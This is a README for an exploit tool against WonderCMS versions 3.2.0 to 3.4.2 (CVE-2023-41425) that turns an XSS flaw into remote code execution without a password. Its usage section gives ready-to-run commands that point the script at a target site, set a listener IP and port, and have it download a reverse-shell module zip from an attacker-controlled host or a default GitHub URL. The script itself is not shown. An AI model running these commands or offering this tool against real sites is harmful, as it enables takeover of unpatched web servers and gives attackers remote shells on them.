

# RCE for  WonderCMS versions v3.2.0 to v3.4.2


WonderCMS versions v3.2.0 to v3.4.2 with XSS vulnerability allow a malicious actor to achieve RCE by uploading a component to the installModule CVE-2023-41425 (No need to know the password).


## Features:

- Automated exploitation of CVE-2023-41425
- Ease of specifying the remote host where the zip is downloaded from


## Usage/Examples
Specifying the remote host from where the main.zip file is downloaded
```
./exploit.py -u http://example.com/loginURL -i 10.10.14.110 -p 4321 -r http://10.10.14.110:8000/main.zip
```

OR
not specifying the main.zip file. By default, it downloads from [main.zip](https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip)

```
./exploit.py -u http://example.com/loginURL -i 10.10.14.110 -p 4321
```

## Screenshots





## 🔗 Links

[](https://insomnia-jacob.github.io/me/)
[](https://www.youtube.com/@Insomnia-dev)
[](https://x.com/intent/follow?screen_name=insomniadev_) 
[](https://www.instagram.com/insomnia.py/)
[](https://app.hackthebox.com/users/1974102)
